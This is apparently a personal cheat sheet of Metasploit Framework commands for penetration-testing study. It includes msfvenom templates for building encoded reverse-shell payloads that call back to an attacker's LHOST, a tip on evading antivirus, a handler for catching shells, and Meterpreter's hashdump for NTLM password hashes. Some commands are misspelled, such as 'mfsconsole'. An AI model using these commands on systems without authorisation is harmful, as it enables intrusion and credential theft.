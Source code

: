 # General
Mesploit runs in memory and therefore has no executable on the disk.
Most Antivirus will still detect it, eventhough it is fairly stealthy.

<details>
<summary>
  
# Framework Organisation  
</summary>

**Modules** \
The modules are located at /opt/metasploit-framework/embedded/framework/modules

**Auxiliary:**
- Scanners
- crawlers
- fuzzers

**Encoders:** 
- Encode exploit and payload to trick signature-based antivirus

**Evasion:**
- Direct evasion attempts of antivirus software

**Exploits**
- Neatly organised by target

**NOP's**
- No operations, used as buffers to achive consisten payload size

**Payloads**
- Adapters: Conver payloads into different formats. For example, a normal single payload can be wrapped inside a Powershell adapter, which will make a single powershell command that will execute the payload.
- Singles: Self-contained Payloads(add user, lauch calc.exe).
- Stagers: Form a connection to metasploit to download additional payloads(stages).
- Stages: Are loaded by the stager. Allows to use larger payload size.

**Post**
- Post-exploitation
</details>

# Basic Commands
`msfconsole` - Start metasploit console:  \
`help <command>` - Help  \
`history` - Show command history:  \
`show` - List modules and alike. Use `show -h` to see what can be showed \
`info <module>` - Show information about module  \
`search <what you want>` - Search \
`exit` - close metasploit

You can use many normal linux commands like in a linux terminal: `ls, cat, clear, ...`

# Contexts:
`use <context, e.g. exploit>` - Entering a context  \
`back` - Exit context:  \
`info` - Info about context:  \
`show options` - List all available options(parameters)  \
`set <parameter> <value>` - Sets `<parameter>` to `<value>` \
`unset <parameter>` \
`unset all` - Unsets all parameters in the current context \
`setg` - Set parameter to default value across all contexts until you exit metasploit \
`unsetg` \
`exploit` - Run the exploit, use `-z` to run in background \
`check` - Check if target is vulnerable without exploiting. Not supported by all modules.

## Exploits
`show payloads` - show available payloads for the exploit

## Sessions:
Once a vulnerabilitay has successfully been exploited, a session is started.

`exploit -j` - launches the module as job in the background \
`background` - Sends the session to the background and presents the context prompt again \
`CTRL + Z` - Same as Background \
`sessions` - List sessions \
`sessions -i <session-number>` - Interact with the session

## Scanning
There are many many scanners use `search scanner <what_you_need>`
### UDP
**udp_sweep** \
`run` 

### SMB
**smb_enumshares** \
**smb_version**

# Database mode
`systemctl start postgresql` \
`msfdb init` \
`mfsconsole` \
`db_status` 

## Workspaces
`workspace -a` - add new workspace \
`-d` - delete \
`-h` - lists options \
`help` - lists the db backend commands \
`db_nmap` - runs nmap but stores results in db \

# Meterpeter
`help` - show commands \
`hashdump` - prints ntlm password hashes for all users it can find

# Msfvenom
msfvenom replaced msfpayload and msfencode and allows you to generate payloads. \
`msfvenom -p <payload> <options>` - general syntax \
`msfvenom -p <OS/arch/shell/type> -f <format> -o <file_name> -e <encode_format> LHOST=<ip> LPORT=<port>` - example \
`-e <encode format>` - encode a payload. There are a variety of encoders available \
`-p <payload>` - select the payload \
`-f <format>` - output format. E.g. elf, raw, base64, exe, php, py, asp, ... \
`-o` - output file \
`LHOST=<ip>` - local ip \
`LPORT=<port>` - local port

## Staged vs Stageless payloads
`shell_<type>` - stageless \
`shell/<type>` - stages

## Handler
A handler catches an incomming connection from a payload (like a reverse shell) \
`use exploit/multi/handler` - can be used to catch incoming connections. Don't forget to set LHOST and LPORT. \




